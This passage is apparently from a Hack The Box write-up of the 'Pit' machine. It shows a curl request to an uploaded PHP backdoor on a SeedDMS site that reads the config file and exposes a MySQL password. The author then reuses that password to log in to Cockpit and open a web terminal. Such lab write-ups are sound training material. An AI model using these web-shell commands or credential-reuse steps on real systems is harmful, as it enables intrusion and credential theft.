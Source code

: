 It works, and from the passwd file we see michelle also has a logon to the box.

## MySQL Credentials

A look on the GitHub site at the structure of SeedDMS reveals there is a config file in the conf folder:

```text
┌──(root💀kali)-[~/htb/pit/snmp]
└─# curl http://dms-pit.htb/seeddms51x/data/1048576/38/1.php?cmd=cat%20/var/www/html/seeddms51x/conf/settings.xml
PHP Backdoor Code:
<pre><?xml version="1.0" encoding="UTF-8"?>
<configuration>
<SNIP>
    <database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="ied^ieY6xoquu" doNotCheckVersion="false">
    </database>
<SNIP>
<extensions><extension name="example"/></extensions></configuration>
</pre>
```

## Cockpit Access

The config file is long but searching for "pass" finds the above hidden amongst it. I couldn't get any further in SeedDMS, so I wondered if that password has been reused by michelle somewhere else. It didn't work for SSH but it did work on the Cockpit login page I found earlier on port 9090:

![pit-cockpit](/assets/images/2021-09-25-18-24-23.png)

## User Flag

At the bottom on the left is a terminal link, this gets us a web based terminal in the browser so let's grab the user flag:

![pit-terminal](/assets/images/2021-09-25-18-26-24.png)
